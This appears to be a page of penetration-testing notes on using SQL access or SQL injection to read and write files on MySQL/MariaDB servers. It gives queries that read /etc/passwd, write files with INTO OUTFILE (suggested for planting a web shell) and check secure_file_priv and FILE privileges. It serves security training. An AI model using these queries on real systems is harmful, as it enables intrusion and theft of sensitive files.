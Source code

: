 # Database Exploitation: File system

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![attacking_common_services](../../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)
[![sql_injection_file_reading](../../../../../_badges/rootme/web_server/sql_injection_file_reading.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-File-reading)

<div class="row row-cols-lg-2"><div>

If we are able to run SQL queries, either from a direct access, or from a [SQLi](/cybersecurity/red-team/s3.exploitation/vulns/injection/sqli.md), we may be able to read/write files.

Common usages are:

* 🔑 Read sensitive files <small>(configuration files, /etc/passwd, etc.)</small>
* 🪲 Write a web shell <small>(you need the webserver root path, try to see if it's shown if error messages if any, or try well-known paths)</small>

In the context of a SQLi, you can use [sqlmap](/cybersecurity/red-team/s3.exploitation/tools/sqlmap.md#readwrite-files) to automate this.
</div><div>

To read a file:

```sql!
SELECT LOAD_FILE('/etc/passwd');
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE xxx;
```

To write something to a file <small>(⚠️ query length limit)</small>:

```sql!
SELECT [...] INTO OUTFILE '/path/to/writable/dir/myfile';
SELECT "Hello!" INTO OUTFILE '/tmp/myfile';
SELECT FROM_BASE64("SGVsbG8h") INTO OUTFILE '/tmp/myfile';
```
</div></div>

<hr class="sep-both">

## DBMS Introspection

<div class="row row-cols-lg-2"><div>

#### MySQL secure_file_priv

[![sql_injection_file_reading](../../../../../_badges/rootme/web_server/sql_injection_file_reading.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-File-reading)

MySQL uses the `secure_file_priv`. If it's empty, there is no restriction. If `NULL`, read/write are disabled. Otherwise, we are limited to the specified folder. We can check out the current value with:

```sql!
SELECT variable_value FROM information_schema.global_variables
WHERE VARIABLE_NAME='secure_file_priv'
```
```sql!
Select @@global.secure_file_priv
```

MariaDB has this variable set to empty by default. MySQL uses `/var/lib/mysql-files` as the default folder.
</div><div>

#### List Users That Can Manipulation Files

List users with the file permission <small>(Y=YES)</small>

```sql!
SELECT grantee, privilege_type
FROM information_schema.user_privileges
WHERE PRIVILEGE_TYPE = 'FILE'
```
```sql!
SELECT user,File_priv FROM mysql.user
```
</div></div>